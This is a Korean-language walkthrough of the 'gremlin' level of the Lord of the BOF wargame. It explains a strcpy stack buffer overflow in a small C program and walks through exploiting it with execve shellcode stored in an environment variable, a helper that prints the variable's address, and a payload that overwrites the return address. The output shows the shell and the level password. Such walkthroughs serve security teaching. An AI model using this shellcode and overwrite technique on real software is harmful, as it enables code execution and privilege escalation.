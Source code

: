 ============================================================================================================
[redhat-lob] gremlin
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d;

        a [shape=box, color=lightblue, label="strcpy"];
        b [shape=box, label="argv[1]"];
        b [shape=box, label="Buffer Overflow"];
        c [shape=box, label="getenv address"];
        d [shape=box, label="RET"];
    }


|

Source code
============================================================================================================

lob 문제의 경우 소스코드가 공개되어 있으며, 소스코드는 다음과 같다.

.. code-block:: c

    int main(int argc, char *argv[])
    {
        char buffer[256];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }


|

Vulnerabliity Vector
============================================================================================================


스택 메모리 공간에 다음과 같이 들어가게 된다.
사이즈가 256바이트인 char 형 변수 배열 buffer가 선언되어 있는데, 해당 사이즈보다 큰 값을 입력할 경우 오버플로우가 발생한다.

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (256byte)
    SFP     (4byte) <- strcpy overflow
    RET     (4byte)
    ---------------
    HIGH    
    ===============

|

Buffer Overflow
============================================================================================================

strcpy에서 argv[1] 인자 값을 통해 buffer 변수에 입력될 때, 값이 버퍼보다 클 경우 오버플로우가 발생된다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행

.. code-block:: console

    $ bash2

    $ ./gremlin `python -c "print 'a'*256"`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaa

    $ ./gremlin `python -c "print 'a'*260"`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaa

    Segmentation fault

|

exploit
============================================================================================================

현재 버퍼 오버플로우가 발생하는 것을 확인하였으니, 해당 오버플로우시 RET에서 리턴되는 주소값을 내가 원하는 주소로 바꿔 쉘코드를 실행하도록 해보자.

환경 변수 상에 쉘코드 등록
------------------------------------------------------------------------------------------------------------

환경 변수에 쉘코드를 등록해두고, 입력값 마지막 리턴 주소를 환경 변수 주소로 변경하여 해당 쉘코드를 실행하도록 한다.

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`


|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

다음과 같이 소스코드를 작성하여 shellcode 환경 변수에 대한 주소 값을 획득.

.. code-block:: c

    #include <stdio.h>
int main(int argc, char **argv)
{
    char *addr;
    addr = getenv(argv[1]);
    printf("address %p\n", addr);
    return 0;
}

.. code-block:: console

    $ gcc -o get get.c

    get.c: In function `main':
    get.c:5: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode

    address 0xbffffc4c


|

RET 주소를 환경 변수 주소로 덮어씌워 공격 진행
------------------------------------------------------------------------------------------------------------


.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (256byte) <- "\x90"*256
    SFP     (4byte)   <- "\x90"*4
    RET     (4byte)   <- shellcode 환경 변수 주소
    ---------------
    HIGH    
    ===============

|

오버플로우시 RET 주소를 환경 변수 주소로 변경하여 해당 쉘코드가 실행되도록 한다.

.. code-block:: console

    $ ./gremlin `python -c 'print "\x90"*260+"\x4c\xfc\xff\xbf"'`
    
    bash$ whoami
    gremlin
    bash$ my-pass
    euid = 501
    hello bof world

